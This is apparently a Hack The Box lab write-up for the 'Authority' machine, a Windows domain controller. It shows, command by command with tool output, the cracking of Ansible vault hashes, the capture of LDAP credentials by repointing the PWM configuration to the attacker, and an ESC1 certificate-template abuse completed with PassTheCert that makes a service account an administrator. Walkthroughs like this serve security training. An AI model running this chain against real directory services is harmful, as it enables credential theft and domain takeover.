










This box is rated medium difficulty on HTB. It involves us discovering Ansible vault passwords in an exposed SMB share. After cracking the corresponding passwords, we decrypt the vaults and use those credentials to alter LDAP configuration settings on a Tomcat web server. By redirecting the LDAP authentication requests to our local machine and capturing them in cleartext, we're given domain credentials for a service account. Finally, we enumerate Active Directory Certificate Services and find that a template is vulnerable to ESC1, allowing us to forge an administrator certificate to escalate privileges.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the typical AD ports.

```
$ sudo nmap -sCV 10.129.229.56

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-21 02:51 -0400
Nmap scan report for 10.129.229.56
Host is up (0.054s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-21 10:52:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-21T10:52:55+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-21T10:52:54+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-04-21T10:52:55+00:00; +4h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-04-21T10:52:54+00:00; +4h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  ssl/http      Apache Tomcat (language: en)
| tls-alpn: 
|_  h2
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-04-19T10:48:16
|_Not valid after:  2028-04-20T22:26:40
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 3h59m59s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-21T10:52:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.45 seconds
```

## Service Enumeration
Looks like a Windows machine with Active Directory components installed, more specifically a Domain Controller. LDAP is leaking the FQDN of `authority.htb.corp` which I'll add to my `/etc/hosts` file in order to help with domain name resolution. There are two web servers up and running, so I'll focus mainly on those as well as SMB for my initial enumeration.

### SMB Shares
I fire up Ffuf to search for subdirectories and Vhosts in the background before using Netexec to test SMB for Guest/Null authentication.

```
$ nxc smb authority.htb.corp -u 'Guest' -p '' --shares

$ smbclient //authority.htb.corp/Development -U 'Guest'
```



As guests, we are allowed to read the Development share, which contains a few Ansible playbooks. I take a look around and transfer the interesting YAML files as well as any that seem to hold configuration settings or credentials.

### Password Self-Service Site
Hopping over to the Tomcat webpage on port 8443 reveals a login panel that uses serves from the /pwm directory. A quick Google search shows that PWM is an open-source password self-service application for LDAP directories.



Looking back at the SMB shares, there was a PWM directory that had quite a few files in it. Apart from a pair of administrator credentials that didn't work anywhere, there were AES256 password hashes inside the `/defaults/main.yml` file.

```
$ cat main.yml 
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

## Exploitation

### Cracking Ansible Vault Passwords
We could try and crack these by first converting them each to the proper format. I use [ansible2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ansible2john.py) for this step and format them by the header (containing the $ANSIBLED_VAULT info) and then the hex values below it.



Repeating the same for every secure string reveals that the same password has been reused on each account. Note that this is just the password for the vault that unlocks them, not directly for each account.

```
$ ansible2john ldap_passwd > ldaphash

$ john ldaphash --wordlist=/opt/seclists/rockyou.txt
```



To unlock the vaults, we need to install ansible-core which contains the ansible-vault tool used to decrypt these strings.

```
$ sudo apt install ansible-core

$ ansible-vault decrypt ldap_passwd
Vault password: 
Decryption successful

$ ansible-vault decrypt pwm_admin_passwd 
Vault password: 
Decryption successful

$ ansible-vault decrypt pwm_admin_login
Vault password: 
Decryption successful
```

### LDAP Auth Capture
Using these credentials for the Self-Service password site only works for the configuration manager/editor.



Under the configuration editor, we gain quite a lot of power over the service. We are now able to redirect LDAP authentication wherever we please and also discover the _svc_ldap_ account as the proxy user in place.



If we were to change that LDAP URL to point towards our local machine and await for an authentication event, we can capture credentials for that proxy user. Make sure to use the cleartext protocol on port 389 as apposed to 636 since we can't decrypt the traffic.

For this step, I stand up a Responder server, but you could get the same results from Wireshark or any other makeshift LDAP server.

```
$ sudo Responder -I tun0
```



This grants us plaintext credentials for that account, which we can confirm over SMB. This also works to grab a shell on the machine via WinRM, allowing us to capture the user flag under their Desktop folder and start internal enumeration to escalate privileges to administrator.



## Privilege Escalation
Checking the users directory shows that the only other account on the box is Administrator, which is where I set my sights to. Recalling the SMB shares from earlier, there was a directory regarding Active Directory Certificate Services. 

### Enumerating AD CS
I quickly check to see if our current account has enrollment rights with Certipy-AD and discover a potential template that is vulnerable to ESC1. 

```
$ certipy-ad find -target authority.authority.htb -u svc_ldap -p '[REDACTED]' -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query authority.authority.htb. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

To exploit this, I reference this [BlackHills InfoSec article](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/) over how it works as well as any commands to use.

### ESC1
If you're unfamiliar with this attack vector - ESC1 is a misconfiguration in Active Directory Certificate Services where a certificate template allows low-privileged users to enroll and supply arbitrary subject/alternative names (like a UPN). This means an attacker can request a certificate that impersonates a higher-privileged user (e.g., a domain admin) because the template doesn't properly restrict identity binding.

If the template also allows client authentication, the attacker can use the issued certificate with Kerberos (via PKINIT) to authenticate as that privileged user. This effectively bypasses needing the target's password or hash.

In practice, an attacker with enrollment rights submits a certificate request specifying a Domain Admin's UPN, receives a valid certificate, and then authenticates as that user to gain full domain admin privileges. Adding a computer account is popular in ESC1 because, in Active Directory, any authenticated user can often create one by default, giving us a controllable identity with enrollment rights that can be used to request a malicious certificate impersonating a privileged user.

I start out by checking if domain users can create machine accounts through Netexec's MachineAccountQuota module.



Awesome, we are allowed 10 total machines per user. 

```
$ impacket-addcomputer 'authority.htb/svc_ldap:[REDACTED]' -method LDAPS -computer-name cbev -computer-pass Password123! -dc-ip 10.129.229.56
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account cbev$ with password Password123!.
Now, we can create the certificate whilst specifying the UPN to match the administrator on the domain.
$ certipy-ad req -username 'cbev$' -password Password123! -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 2
[*] Successfully requested certificate
[*] Got certificate with multiple identities
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator_authority.pfx'
[*] Wrote certificate and private key to 'administrator_authority.pfx'
```

This saves our certificate and private key bundle into a PFX file, which would typically be used to authenticate to the CA and grab a TGT, therefore the administrator's NTLM hash.

```
$ certipy-ad auth -pfx administrator_authority.pfx -dc-ip 10.129.229.56
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN DNS Host Name: 'authority.htb'
[*] Found multiple identities in certificate
[*] Please select an identity:
    [0] UPN: 'administrator@authority.htb' (administrator@authority.htb)
    [1] DNS Host Name: 'authority.htb' (authority$@htb)
> 0
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```

However, the DC throws a `KDC_ERR_PADATA_TYPE_NOSUPP` error, indicating that the machine is not properly setup for PKINT and will inevitably fail. 

### PassTheCert
We are not out of options though as a tool named [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) exists. This will allow us to gain limited access to the machine via LDAP, provided we have certificate with domain admin privileges. I start by extracting the certificate and private key from the PFX file.

```
$ certipy-ad cert -pfx administrator_authority.pfx -nocert -out administrator.key

$ certipy-ad cert -pfx administrator_authority.pfx -nokey -out administrator.crt
```

Using the Python module from that Github repository, we're able to pass in the certificate and private key to authenticate and run a few commands. One of which gives us the ability to add users to groups. I end up giving _svc_ldap_ administrative access since we already have CLI access with their credentials.

```
$ python3 passthecert.py -action ldap-shell -crt ~/authority/administrator.crt -key ~/authority/administrator.key -domain authority.htb -dc-ip 10.129.229.56
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 clear_shadow_creds target - Clear shadow credentials on the target (sAMAccountName).
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control [search_base] target grantee - Grant full control on a given target object (sAMAccountName or search filter, optional search base) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
set_shadow_creds target - Set shadow credentials on the target object (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.

# add_user_to_group svc_ldap administrators
Adding user: svc_ldap to group Administrators result: OK

# Bye!
```

Finally, creating a new session over WinRM as the _svc_ldap_ user confirms that we have administrative access on the box and can grab the root flag under the Desktop folder to complete this challenge.



That's all y'all, this box was a ton of fun as the steps taken were fairly realistic and goes to show how password reuse can be fatal. I hope this was helpful to anyone following along or stuck and happy hacking!
